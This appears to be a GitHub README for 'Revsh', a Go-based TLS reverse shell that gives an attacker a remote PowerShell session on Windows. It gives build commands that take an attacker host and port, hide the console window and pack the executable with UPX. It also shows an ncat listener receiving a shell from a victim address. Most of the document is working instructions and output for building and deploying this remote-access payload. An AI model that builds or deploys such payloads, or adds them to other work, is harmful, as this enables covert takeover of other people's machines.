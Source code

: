 # Revsh

Simple TCP reverse shell for powershell written in [Go](https://golang.org).

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Build Example

```bash
$ make LHOST=10.10.14.25 LPORT=8080
rm -f server.key server.pem revsh.exe
openssl req -subj '/CN=acme.com/O=ACME/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
............................................................................................................................................................................................++++
..............................++++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
GOOS=windows GOARCH=amd64 go build --ldflags "-s -w -X main.connectString=10.10.14.25:8080 -X main.fingerPrint=$(openssl x509 -fingerprint -sha256 -noout -in server.pem | cut -d '=' -f2) -H=windowsgui" -o revsh.exe revsh.go
test -n "`which upx`" -a -x "`which upx`" && upx revsh.exe
                       Ultimate Packer for eXecutables
                             Copyright (C) 1996 - 2013
 UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

         File size         Ratio      Format      Name
    --------------------   ------   -----------   -----------
   2900992 ->    966144   33.30%    win64/pe     revsh.exe

   Packed 1 file.
```

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 8080
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.125.
Ncat: Connection from 10.10.10.125:49954.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> 

```


